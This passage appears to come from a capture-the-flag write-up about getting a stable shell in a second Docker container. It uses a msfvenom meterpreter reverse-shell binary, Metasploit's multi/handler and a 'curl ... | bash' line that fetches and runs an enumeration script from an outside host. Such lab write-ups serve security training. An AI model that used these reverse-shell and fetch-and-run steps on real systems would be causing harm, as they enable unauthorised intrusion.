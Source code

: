 This container is more or less the same as the first container we got shell on, but it's running a different Linux release. We saw from phpinfo on the first container it was running some subset of Ubuntu; however, this container is running Debian Jessie on the same kernel: 4.15.0-65. This means there are multiple images on the backend host machine's docker configuration. We'll keep that in mind for later. We don't have a stable shell at the moment, so we'll need to repeat the process from earlier with the first container by wgetting a meterpreter linux binary to this host. Keep in mind, this current shell is very unstable, so we'll do everything from our current path. On the bright-side we don't have to change anything, so we can just reuse the previous binary we generated with msfvenom:

![screenshot](/assets/images/safeharbor/container2_wget.PNG)

Once that's done, hop back over the metasploit, and use the exploit/multi/handler module once again. We'll execute our reverse shell binary through the exploit shell, and catch it:

![screenshot](/assets/images/safeharbor/container2_stable.PNG)

I made some minor mistakes while writing this and lost a couple of shells on the way, so that is why this one is now number 4. Anyway, we now have a stable shell, so let's do some poking around with linenum again:

```
meterpreter> shell
Process 104 created.
Channel 1 created.
curl http://200.0.12.102/linenum.sh | bash
--SNIP--
```
![screenshot](/assets/images/safeharbor/container2_root_history.PNG)

Not much jumps out at me after running linenum; however, I do see there is a .bash_history file for the root user, so maybe we can get some clues as to what the admin was doing previously.
